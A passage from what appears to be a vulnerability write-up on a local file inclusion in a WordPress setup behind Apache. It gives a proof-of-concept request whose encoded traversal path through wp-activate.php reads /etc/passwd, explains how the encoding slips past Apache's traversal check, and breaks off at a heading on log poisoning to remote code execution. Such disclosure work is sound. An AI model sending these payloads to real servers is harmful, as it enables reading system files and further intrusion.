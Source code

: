 ```http
GET /x/wp-activate.php? HTTP/1.1
Host: localhost
```

The debugger hit `showFile()`.

{{< figure src="debug1.png" caption="Debugger hit `showFile()`" >}}

## Exploit

### Proof of Concept (PoC)

Send a request with the LFI payload

```http
GET /x/wp-activate.php/%2e%2e/%2f/%2e%2e/%2f/%2e%2e/%2f/%2e%2e/%2f/%2e%2e/etc/passwd? HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
X-PwnFox-Color: blue
Priority: u=0, i
Content-Length: 0
```

**Debug**:
{{< figure src="debug2.png" caption="Debugger with valid payload" >}}

**Result**:

{{< figure src="result1.png" caption="Successful LFI result" >}}

**Explanation**:

`/x/wp-activate.php/%2e%2e/%2f/%2e%2e/%2f/%2e%2e/%2f/%2e%2e/%2f/%2e%2e/etc/passwd?` after decoding becomes `/x/wp-activate.php/..///..///..///..///../etc/passwd?`

We use this string to trick Apache so that Apache does not detect Document Root traversal. If we use `/x/wp-activate.php/../../../../../etc/passwd?` Apache will detect the Document Root traversal.

`///` is still accepted as equivalent to `/`, for example:

```bash
w41bu1@22NS088:~$ ls /////////
bin  boot  cdrom  dev  etc  home  lib  lib64  lost+found  media  mnt  opt  proc  root  run  sbin  snap  srv  sys  tmp  usr  var  swap.img
```

### Log poisoning → LFI → RCE
